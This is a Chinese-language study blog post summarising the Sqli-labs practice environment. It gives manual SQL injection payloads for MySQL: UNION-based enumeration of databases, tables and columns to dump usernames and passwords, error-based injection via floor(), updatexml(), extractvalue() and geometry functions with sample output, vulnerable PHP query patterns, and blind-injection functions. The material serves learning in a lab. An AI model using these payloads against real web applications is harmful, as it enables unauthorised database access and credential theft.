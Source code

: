 ```yaml
---


title: Sqli-labs 

time: 2016.07.28 15:22:00

layout: post

tags:

- Security
- Web
- SQL

excerpt: learning summary from Sqli-labs

---
```

# Sqli-labs

---

## 0x00 SQL注入一般过程

1. 判断是什么类型注入，有没有过滤了关键字，可否绕过，猜测后台SQL语句是怎样的，如何拼接
2. 获取数据库用户（user（））,版本（version（）），数据库（database（））等信息
3. 获取某个数据库表中信息
4. 获取列信息
5. 获取数据

---

## 0x01 PHP+Mysql 手注一般过程

1. 爆字段长度 order by num %（注释也可以使用－－空格）
2. 匹配字段 and 1=2 union select 1,2,3,4,5...%
3. 利用内置函数爆数据库信息及相关信息 version() database() user() current_user() @@datadir数据库路径 @@basedir mysql安装路径 @@version_compile_os 操作系统
4. (这里讲最通用的 mysql>5.0)	
	5. 获取数据库（非必要，因为前面的database可以获得）and 1=2 union select 1,2,schema_name from information_schema.schemata limit 0（开始的记录，0为第一个开始记录）,1（显示1条记录） % 
	6. 获取表  and 1=2 union select 1,2,table_name from information_schema.tables where table_schema = '数据库名字'（最常用的是十六进制表示的数据库,'容易被过滤） limit 0,1 ％
	7. 获取列  and 1=2 union select 1,2,column_name from information_schema.columns where table_schema=0x十六进制数据库 and table_name=0x十六进制表 limit 0,1 %
	8. 获取内容 and 1=2 union select 1,2,concat_ws(char(32,58,32),username,password) from users(表名) limit 0,1 %
	
-----

## 0x02 常见后台拼接语句

1. $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";（需闭合'）
2. $sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
3. $sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";（需闭合'））
4. $id = '"' . $id . '"';$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";即$sql="SELECT * FROM users WHERE id=("$id") LIMIT 0,1";(需闭合"),此时你输入'不会报错)
5. $sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";（少见）


----
	
## 0x03 无正常数据回显注入

mysql报错注入时,我们有时候会遇到没有正常数据回显的注入.这时候就需要报错注入来获得我们需要的数据.

```
1. floor()
语句:and (select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);

mysql> select 1 and (select 1 from  (select count(*),concat(version(),floor(rand
(0)*2))x from  information_schema.tables group by x)a);
ERROR 1062 (23000): Duplicate entry '5.5.401' for key 'group_key'

2. updatexml()
语句:and (updatexml(1,concat(0x3a,(select user())),1));

mysql> select 1 and (updatexml(1,concat(0x3a,(select user())),1));
ERROR 1105 (HY000): XPATH syntax error: ':root@localhost'

3. ExtractValue()

和upadtexml()用法差不多
语句:and extractvalue(1, concat(0x5c, (select user())));

mysql> select 1 and extractvalue(1, concat(0x5c, (select user())));
ERROR 1105 (HY000): XPATH syntax error: '\root@localhost'

4. GeometryCollection() version > MySQL4.1
5. MultiPoint()
6. Polygon()
7. LineString()
8. MultiPolygon()
9. MultiPoint()
10. MultiLineString()

这几个是mysql在4.1版本之后引入的一系列空间扩展，使其具备了一定的空间处理能力.
语句都一样就列举了一个例子.

语句:AND GeometryCollection((select * from(select * from(select user())a)b));

mysql> select 1 AND GeometryCollection((select * from(select * from(select user())a)b));

ERROR 1367 (22007): Illegal non geometric '(select `b`.`user()` from (select 'root@localhost' AS `user()` from dual) `b`)' value found during parsing

```

---
## 0x04 盲注常用函数

1. length(str)：返回str字符串的长度。
2. substr(str, pos, len)：将str从pos位置开始截取len长度的字符进行返回。注意这里的pos位置是从1开始的，不是数组的0开始
3. mid(str,pos,len):跟上面的一样，截取字符串
4. ascii(str)：返回字符串str的最左面字符的ASCII代码值。
5. ord(str):同上，返回ascii码
6. if(a,b,c) :a为条件，a为true，返回b，否则返回c，如if(1>2,1,0),返回0


----


